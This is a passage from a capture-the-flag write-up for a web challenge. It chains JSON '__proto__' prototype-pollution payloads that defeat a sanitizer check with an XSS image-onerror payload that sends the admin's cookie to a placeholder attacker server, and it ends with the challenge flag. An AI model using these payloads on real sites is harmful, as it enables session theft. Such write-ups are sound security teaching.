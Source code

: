 The idea here is to pollute `__proto__` with the desired `key:value` pairs so that every object will inherit them. Change the line to the following.

{% code overflow="wrap" %}
```js
res.end('{"__proto__": {"sanitize": false, "report": true}}');
```
{% endcode %}

When I check the debugger again, `sanitize` is still not false. I really thought this worked for me yesterday, using the same payloads 🤷‍♂️

Regardless, the alert is popped! Since `sanitize` doesn't seem to matter, let's try without it.

{% code overflow="wrap" %}
```js
res.end('{"__proto__": {"report": true}}');
```
{% endcode %}

Yep, it works! I tried a few variations to disable the sanitizer but didn't get there.

I check with ChatGPT 🤓

> The # before sanitize signifies that sanitize is a private class field, a feature introduced in JavaScript with the ECMAScript 2019 (ES10) specification. Private class fields are denoted by the # symbol followed by the field name, and they are only accessible within the class in which they are defined

> private class fields are not accessible outside the class where they are defined. They are not part of the prototype chain and cannot be modified or accessed from external code. This means that the `#sanitize` field in the `Debug` class is not susceptible to prototype pollution.

OK, I guess I can't change it? 🤔 But.. if `debug.sanitize` is always true, why did the challenge dev add an if statement here at all? Guess I'll have to check smarter peoples writeups 😁

edit: After speaking with the challenge creator and playing around with the challenge again, it turns out any form of prototype pollution is enough, e.g. sending an empty object will work just fine. Presumably this overwrites the existing object, making `sanitize` undefined so that the if condition doesn't trigger 🤷‍♂️

{% code overflow="wrap" %}
```js
res.end('{"__proto__": {}}');
```
{% endcode %}

### Part 3: XSS

You can probably find many payloads to extract the flag, but I went with this one.

{% code overflow="wrap" %}
```js
<img src=x onerror=document.location='http://ATTACKER_SERVER/?'+document.cookie;>
```
{% endcode %}

Upon loading, the page will try to display the image `x`. Since that's not a valid `img src`, it will trigger an error and execute some JS to redirect the victim to the attacker server (us) with their cookie attached as a GET parameter.

If we submit the report to the admin and check our `ngrok` output (make sure to do this on the web UI), we'll find our flag 🔥

Flag: `amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}`

Side note: I actually forgot to submit the flag, so our team did not solve the challenge 🙃
